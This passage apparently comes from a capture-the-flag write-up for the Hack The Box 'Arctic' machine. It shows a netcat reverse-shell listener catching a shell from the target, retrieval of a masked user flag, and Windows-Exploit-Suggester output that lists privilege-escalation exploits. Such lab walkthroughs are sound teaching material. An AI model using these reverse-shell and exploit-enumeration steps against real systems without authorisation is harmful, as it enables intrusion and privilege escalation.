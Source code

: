 ```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.11] 49354
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

# user.txt

The user flag is in `tolis`'s Desktop.

```
C:\ColdFusion8\runtime\bin> type C:\Users\tolis\Desktop\user.txt
0265XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (2)

Lets use [`Windows-Exploit-Suggester`](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) and see what exploits are available.

```bash
$ python windows-exploit-suggester.py --database 2021-01-16-mssb.xls --systeminfo ~/Desktop/htb/arctic/systeminfo
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
